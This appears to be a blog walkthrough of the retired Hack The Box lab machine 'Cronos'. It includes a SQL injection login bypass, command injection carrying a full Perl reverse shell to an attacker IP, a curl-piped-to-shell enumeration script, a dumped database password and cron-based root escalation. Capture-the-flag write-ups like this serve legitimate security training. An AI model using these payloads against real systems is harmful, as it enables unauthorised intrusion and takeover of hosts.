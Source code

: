 ```yaml
---
layout: post
title: "HTB-Cronos"
date: 2020-02-16 18:22:00 +0000
categories: HTB-Walkthrough
---
```


![cronos](http://localhost:4000/sh1n0bi-dojo/assets/img/cronos.png)

One of my favourite boxes this one...

`nmap -sV -Pn --min-rate 10000 |tee -a cronos.txt`

{% highlight ruby %}
Nmap scan report for 10.10.10.13
Host is up (0.094s latency).
Not shown: 997 filtered ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 18:b9:73:82:6f:26:c7:78:8f:1b:39:88:d8:02:ce:e8 (RSA)
|   256 1a:e6:06:a6:05:0b:bb:41:92:b0:28:bf:7f:e5:96:3b (ECDSA)
|_  256 1a:0e:e7:ba:00:cc:02:01:04:cd:a3:a9:3f:5e:22:20 (ED25519)
53/tcp open  domain  ISC BIND 9.10.3-P4 (Ubuntu Linux)
| dns-nsid:
|_  bind.version: 9.10.3-P4-Ubuntu
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
{% endhighlight %}

We see port 53 running, lets enumerate it...

{% highlight ruby %}
root@kali:~/HTB/retired/cronos# nslookup
> server 10.10.10.13
Default server: 10.10.10.13
Address: 10.10.10.13#53
> 10.10.10.13
13.10.10.10.in-addr.arpa        name = ns1.cronos.htb.
{% endhighlight %}

We can add cronos.htb to our /etc/hosts file.

Lets dig a little deeper...

`dig -axfr cronos.htb @10.10.10.13`

{% highlight ruby %}
; <<>> DiG 9.11.5-P4-5.1+b1-Debian <<>> axfr cronos.htb @10.10.10.13
;; global options: +cmd
cronos.htb.             604800  IN      SOA     cronos.htb. admin.cronos.htb. 3 604800 86400 2419200 604800
cronos.htb.             604800  IN      NS      ns1.cronos.htb.
cronos.htb.             604800  IN      A       10.10.10.13
admin.cronos.htb.       604800  IN      A       10.10.10.13
ns1.cronos.htb.         604800  IN      A       10.10.10.13
www.cronos.htb.         604800  IN      A       10.10.10.13
cronos.htb.             604800  IN      SOA     cronos.htb. admin.cronos.htb. 3 604800 86400 2419200 604800
;; Query time: 92 msec
;; SERVER: 10.10.10.13#53(10.10.10.13)
;; WHEN: Fri Jan 24 20:42:44 EST 2020
;; XFR size: 7 records (messages 1, bytes 203)
{% endhighlight %}

lets take a look now at http://admin.cronos.htb

Its a login page...
We can try some well known weak credentials, they fail so lets try sqli login bypass

In the username field type 
{% highlight ruby %}
admin 'or 1=1# 
{% endhighlight %}
sometimes blank password is ok, sometimes random input is required.
Splendid, this gets us into the tracert webpage....we can try to inject commands here....

use ; to add command after the ping one; for example:

{% highlight ruby %}
8.8.8.8;perl -e 'use Socket;$i="10.10.14.19";$p=6969;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
{% endhighlight %}

the perl reverse shell works! we catch the reverse shell on 
`nc -nlvp 6969`

##########################

Taking a look around we know there's always goodies in the config.php file if its available...

{% highlight ruby %}
$ cat config.php                                                                                                   
<?php                                                                                                              
   define('DB_SERVER', 'localhost');                                                                               
   define('DB_USERNAME', 'admin');                                                                                 
   define('DB_PASSWORD', 'kEjdbRigfBHUREiNSDs');                                                                   
   define('DB_DATABASE', 'admin');                                                                                 
   $db = mysqli_connect(DB_SERVER,DB_USERNAME,DB_PASSWORD,DB_DATABASE); 
{% endhighlight %}

This may be very useful, we can check the mysql database to see if we can find any other creds.

{% highlight ruby %}
$ mysql -u admin -p
Enter password: kEjdbRigfBHUREiNSDs
use admin  
;
show tables;
select * from users;
quit
Tables_in_admin
users
id      username        password
1       admin   4f5fffa7b2340178a716e3832451e058
$ 
{% endhighlight %}

[g0tmi1k's linux privilege escalation guide is the Bible of linux enum](https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/),

one of the first commands I always run (after `sudo -l` and `sudo su`) is
`find / -perm -u=s -type f 2>/dev/null`

{% highlight ruby %}
find / -perm -u=s -type f 2>/dev/null
/bin/ping
/bin/umount
/bin/mount
/bin/fusermount
/bin/su
/bin/ntfs-3g
/bin/ping6
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/lib/snapd/snap-confine
/usr/lib/eject/dmcrypt-get-device
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/bin/chsh
/usr/bin/newuidmap
/usr/bin/sudo
/usr/bin/chfn
/usr/bin/newgrp
/usr/bin/at
/usr/bin/pkexec
/usr/bin/newgidmap
/usr/bin/gpasswd
/usr/bin/passwd
{% endhighlight %}

Its important to become well practiced in the techniqes, methods and commands g0tmilk covers. For convenience many folk suppliment this knowlege with using enumeration scripts.
Theres a few good ones out there, [LinEnum.sh](https://github.com/rebootuser/LinEnum) is a good comprehensive one, but the one ive started using first recently is [linpeas.sh](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite)

We can use curl (when available on targets) to run the enumeration from our attacking machine.
{% highlight ruby %}
curl 10.10.14.19/linpeas.sh |sh |tee -a enum.txt
{% endhighlight %}
...so we dont even upload the file to the target...neat trick...

Whilst increasingly becomming my goto method of enum, when the conditions allow, its not actually needed here; the way forward is practically right in front of us.

In /var/www/laravel there is an interesting file called 'artisan'.
Looking at our enum.txt output from linpeas.sh we find that cronjob run by root executes it.

our wwwdata user has write privileges in the www folder, so we can replace with evil.php get rootshell....
the php reverse shell can be downloaded from pentestmonkey's website, but its also available in /usr/share/webshells/
we just need to modify the lhost and port settings.

There's a few ways we can get the file to the target... we can copy'n'paste it into vi, we can use `wget` or `curl -O`

{% highlight ruby %}
root@kali:~/HTB/retired/cronos# nc -nlvp 31337
listening on [any] 31337 ...
connect to [10.10.14.19] from (UNKNOWN) [10.10.10.13] 56894
Linux cronos 4.4.0-72-generic #93-Ubuntu SMP Fri Mar 31 14:07:41 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
 04:38:01 up  2:55,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=0(root) gid=0(root) groups=0(root)
/bin/sh: 0: can't access tty; job control turned off
# cat /home/*/user.txt
51xxxxxxxxxxxxxxxxxxxxxxxxxxxx3b
# cat /root/root.txt
1xxxxxxxxxxxxxxxxxxxxxxxxxxxxxa0
{% endhighlight %}


#############################################

Exploiting suid files to escalate privileges is an important technique to practice and remember to look out for,
it will often be the best (and sometimes only) way to get root. 
